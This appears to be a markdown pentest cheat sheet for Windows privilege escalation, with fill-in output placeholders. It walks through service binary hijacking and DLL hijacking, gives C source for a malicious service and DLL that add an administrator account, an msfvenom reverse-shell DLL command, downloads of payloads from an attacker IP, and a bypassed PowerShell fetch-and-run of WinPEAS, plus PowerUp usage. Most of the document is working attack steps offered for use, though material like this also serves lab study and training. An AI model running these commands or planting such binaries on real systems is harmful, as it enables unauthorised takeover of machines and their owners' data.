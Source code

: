 
# Service Hijacking
## Enumerate Services that run on boot
Services from the following paths are not writeable to user:
* C:\Program Files
* C:\Program Files (x86)
* C:\Windows\System32
* C:\Windows\SysWOW64
* C:\ProgramData
* C:\Users\All Users
```powershell
Get-Service | Where-Object { $_.StartType -eq 'Automatic' } | Select-Object Name, Status, StartType
```
```
<insert output here>
```
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```
```
<insert output here>
```
## Check interesting service for user writeable permissions
icacls returns the following values related to permissions:
* F - Full access
* M - Modify access
* RX - Read and execute access
* R - Read-only access
* W - Write-only access

BUILTIN\Users or another group the compromised user is in must have (W), (M) or (F) permissions to overwrite the binary (always worth checking if it has "(I)" perm too - it could have inherited the necessary perms from elsewhere):
```powershell
icacls "C:\path\to\interesting\service.exe"
```
```
<insert output here>
```
## Create new malicious service binary
Example malicious service to use:
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
On kali, cross-compile the service:
```batch
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
## Hijack interesting service with a malicious binary
Transfer the service to the target machine:
```powershell
iwr -uri http://$(IP_ADDRESS)/adduser.exe -Outfile adduser.exe
```
Backup the original interesting service:
```powershell
move C:\path\to\interesting\service.exe service.exe
```
Replace service binary with new malicious service:
```powershell
move .\adduser.exe C:\path\to\interesting\service.exe
```
### Restart service
If the user has the appropriate permmissions:
```powershell
net stop $ServiceName
```
```powershell
net start $ServiceName
```
Otherwise, if the service startup type is automatic, the system can be rebooted:
```powershell
shutdown /r /t 0
```
# DLL Hijacking
By hijacking a DLL a high privileged service uses, privesc is possible.
## Standard DLL search order
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
## How to exploit
Either a DLL being missing or placing a malicious dll higher on the search order than the legitimate one works.
1. Download the potentially vulnerable service and procmon (https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) on a non-target machine.
2. With the service running, click on the Filter menu > Filter... to get into the filter configuration.
3. The filter should be "Process Name is $SERVICE.EXE then Include".
4. Observe "CreateFile" operations for DLL's.
5. Refer to the Standard DLL search order. If there are "CreateFile" operations of DLL's, are there any DLL's place lower on the search order? For example, if the DLL's are writing to the system directory, is the application directory writeable by user? If so, a malicious DLL can be crafted and placed there to be executed.
## Crafting a malicious DLL
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$(IP_ADDRESS) LPORT=$(PORT) -f dll -o $NAME_OF_VULNERABLE_DLL.dll
```
Or
```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
Cross-compile:
```bash
x86_64-w64-mingw32-gcc maliciousdll.cpp --shared -o $NAME_OF_VULNERABLE.dll
```
Download to target machine:
```powershell
iwr -uri http://$(ATTACKER_IP)/$NAME_OF_VULNERABLE.dll -OutFile 'C:\Path\to\higher\dll\search\order\$NAME_OF_VULNERABLE.dll'
```
Once the service that uses the vulnerable DLL is started or restarted by someone of higher privileges (if the service startup type is automatic, the system can be rebooted), then the malicious DLL will be run.
# No GUI?
If a compromised user isn't part of "Remote Desktop Users" or "Remote Management Users", this means RDP access can't be gained as that user.

Instead, use runas on an account with GUI access to run a cmd or powershell:
```powershell
runas /user:$USER cmd
```
# Winpeas
```powershell
powershell -exec bypass -c "iex ((New-Object System.Net.WebClient).DownloadString('http://$IP_ADDRESS/winpeas.ps1'))"
```
```
<insert winpeas output here>
```
```powershell
iwr -uri http://$(IP_ADDRESS)/winPEASx64.exe -Outfile winPEAS.exe
```
```
<insert output from winpeas exe here>
```
# PowerUp
```batch
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
```
```powershell
iwr -uri http://$(IP_ADDRESS)/PowerUp.ps1 -Outfile PowerUp.ps1
```
```powershell
powershell -ep bypass
```
```powershell
. .\PowerUp.ps1
```
```powershell
Get-ModifiableServiceFile
```
```
<insert output here>
```
```powershell
Get-UnquotedService
```
```
<insert output here>
```
